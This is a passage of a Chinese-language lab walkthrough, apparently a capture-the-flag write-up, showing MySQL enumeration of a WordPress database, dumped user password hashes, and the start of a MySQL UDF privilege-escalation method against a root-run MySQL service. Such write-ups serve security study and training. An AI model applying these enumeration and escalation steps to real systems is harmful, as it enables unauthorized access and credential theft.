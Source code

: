 ```
use wordpress;
select version();
```

![image-20220301191507062](https://gitee.com/xxb667/img/raw/master/img/image-20220301191507062.png)

```
show tables;
select * form wp_users;
```

![image-20220301191807967](https://gitee.com/xxb667/img/raw/master/img/image-20220301191807967.png)

```
版本：mysql 5.5.60-0+deb8u1

数据库：wordpress

用户名：

michael $P$BjRvZQ.VQcGZlDeiKToCQd.cPw5XCe0

steven $P$B6X3H3ykawf2oHuPsbjQiih5iJXqad.
```



查看mysql的运行权限

```
ps -aux|grep mysql
```

![image-20220301191948665](https://gitee.com/xxb667/img/raw/master/img/image-20220301191948665.png)

MySQL以root身份运行，通过MySQL提权

## 3.4 提权 mysql udf

- 因为mysql版本>=5.1
- 所以必须把 UDF 的动态链接库.so文件
- 放置于 MySQL 安装目录下的 **lib\plugin** 文件夹下
- 才能创建自定义函数

### 查看插件所在路径

```
show variables like '%plugin%';
```

可以查看到路径在

```
/usr/lib/mysql/plugin/
```

![image-20220301192406726](https://gitee.com/xxb667/img/raw/master/img/image-20220301192406726.png)
